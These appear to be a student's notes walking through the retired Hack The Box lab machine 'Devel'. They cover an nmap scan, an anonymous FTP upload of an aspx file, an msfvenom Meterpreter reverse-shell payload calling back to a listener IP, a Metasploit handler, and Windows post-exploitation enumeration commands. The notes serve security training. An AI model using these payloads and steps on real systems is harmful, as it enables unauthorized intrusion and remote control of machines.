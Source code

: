 https://app.hackthebox.com/machines/3

**Devel** *(EASY - RETIRED)*

```
sudo nmap -A -T4 -p- 10.129.234.141
```

![[Pasted image 20230530170427.png]]

```
echo "this is a test" > test.txt
```

![[Pasted image 20230530164800.png]]

```
ftp 10.129.234.141
```

*anonymous : anonymous*

```
put test.txt
```

![[Pasted image 20230530170808.png]]

```
http://10.129.234.141/test.txt
```

![[Pasted image 20230530170845.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > exploit.aspx
```

![[Pasted image 20230530171010.png]]

```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20230530171632.png]]

![[Pasted image 20230530171753.png]]

![[Pasted image 20230530171849.png]]

![[Pasted image 20230530171931.png]]

```
getuid

sysinfo
```

![[Pasted image 20230530172139.png]]

```
pwd

shell

systeminfo
```

![[Pasted image 20230530172652.png]]

![[Pasted image 20230530172758.png]]

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![[Pasted image 20230530173134.png]]

```
hostname

wmic qfe
```

![[Pasted image 20230530173421.png]]

*WMIC - Windows Management Instrumentation Command*

*qfe - quick-fix engineering*

[Win32_QuickFixEngineering class - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering?redirectedfrom=MSDN)

![[Screenshot 2023-05-30 175339.png]]

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![[Screenshot 2023-05-30 180311.png]]

```
wmic logicaldisk
```

![[Screenshot 2023-05-30 181225.png]]

```
wmic logicaldisk get caption,description,providername
```

![[Pasted image 20230530181515.png]]

```
whomi

whoami /priv
```

![[Pasted image 20230530181813.png]]

```
whoami /groups
```

![[Pasted image 20230530182003.png]]

```
net user
```

![[Pasted image 20230530182557.png]]

```
net user babis
```

![[Pasted image 20230530182638.png]]

```
net user Administrator
```

![[Pasted image 20230530182831.png]]

```
net localgroup

net localgroup administrators
```

![[Pasted image 20230530183242.png]]

```
ipconfig /all
```

![[Pasted image 20230530183606.png]]

